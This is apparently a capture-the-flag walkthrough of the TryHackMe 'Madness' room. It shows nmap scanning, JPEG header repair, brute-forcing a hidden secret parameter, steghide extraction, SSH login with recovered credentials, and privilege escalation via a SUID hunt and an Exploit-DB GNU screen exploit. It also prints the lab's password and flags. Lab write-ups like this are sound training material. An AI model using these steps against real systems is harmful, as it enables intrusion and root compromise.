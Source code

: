 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.81.42
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 15:36 IST
Nmap scan report for 10.10.81.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this ```http://Ip/th1s_1s_h1dd3n/?secret=```

<div align="center">
  <img src="https://github.com/user-attachments/assets/cd9f8dce-c50d-4732-a035-7c04232298ed" height=""></img>
</div>

### Let try to enter random value

<div align="center">
  <img src="https://github.com/user-attachments/assets/f0fbbd0e-ac18-4e9c-9058-3c128f36117d" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.183.133
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
# y2RPJ4QaPF!B 

steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
